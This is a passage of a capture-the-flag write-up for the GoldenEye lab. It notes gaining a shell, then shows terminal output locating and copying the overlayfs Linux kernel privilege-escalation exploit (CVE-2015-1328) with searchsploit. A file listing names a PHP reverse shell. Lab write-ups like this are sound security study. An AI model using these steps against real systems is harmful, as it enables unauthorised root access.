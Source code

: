 - It seems that we also need to type something and check the spell option for getting the shell

- And Finally I have gotten the shell

![alt text](image-12.png)


## PrivEsc
#### **Crafting**
```sh
┌──(bc-here㉿BC-Here)-[~/CTF/THM/GoldenEye]
└─$ searchsploit  3.13.0
------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                                                 |  Path
------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Linux Kernel 3.13.0 < 3.19 (Ubuntu 12.04/14.04/14.10/15.04) - 'overlayfs' Local Privilege Escalation                                                                           | linux/local/37292.c
Linux Kernel 3.13.0 < 3.19 (Ubuntu 12.04/14.04/14.10/15.04) - 'overlayfs' Local Privilege Escalation (Access /etc/shadow)                                                      | linux/local/37293.txt
Unified Remote 3.13.0 - Remote Code Execution (RCE)                                                                                                                            | windows/remote/51309.py
------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results

┌──(bc-here㉿BC-Here)-[~/CTF/THM/GoldenEye]
└─$ searchsploit  -m 37292.c
  Exploit: Linux Kernel 3.13.0 < 3.19 (Ubuntu 12.04/14.04/14.10/15.04) - 'overlayfs' Local Privilege Escalation
      URL: https://www.exploit-db.com/exploits/37292
     Path: /usr/share/exploitdb/exploits/linux/local/37292.c
    Codes: CVE-2015-1328
 Verified: True
File Type: C source, ASCII text, with very long lines (466)
Copied to: /home/bc-here/CTF/THM/GoldenEye/37292.c



┌──(bc-here㉿BC-Here)-[~/CTF/THM/GoldenEye]
└─$ ls
37292.c  5257.py  dir.txt  ferox.txt  for-007.jpg  password.txt  php-reverse-shell.php  ports.txt  users.txt

```